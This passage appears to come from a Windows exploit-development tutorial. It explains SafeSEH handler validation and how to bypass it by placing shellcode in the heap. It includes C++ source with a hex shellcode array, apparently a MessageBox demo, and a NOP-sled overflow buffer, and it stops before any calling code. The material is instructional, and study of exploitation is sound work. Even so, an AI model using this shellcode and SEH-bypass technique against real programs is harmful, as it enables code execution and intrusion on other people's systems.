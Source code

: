 > Flowchart of `RtlIsValidHandler()` function detection

![BvASMR.png](https://s1.ax1x.com/2020/11/11/BvASMR.png)

### Feasibility analysis

- Exception handling function is located outside the memory range of the load module and DEP is closed
- The exception handling function is located within the memory range of the load module, the corresponding module is not SafeSEH enabled (the SafeS.E.H table is empty), and the corresponding module is not pure IL
- The exception handling function is located in the memory range of the loaded module, the corresponding module is SafeSEH enabled (the SafeS.E.H table is not empty), and the address of the exception handling function is included in the SafeS.E.H table

> Ultimate solution: arrange the shellcode in the heap area, even if SEH verification is not feasible it will still be called

---

## Bypass SEH in the heap

### Code

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char shellcode[] =
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
;

char overflowcode[] = 
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
```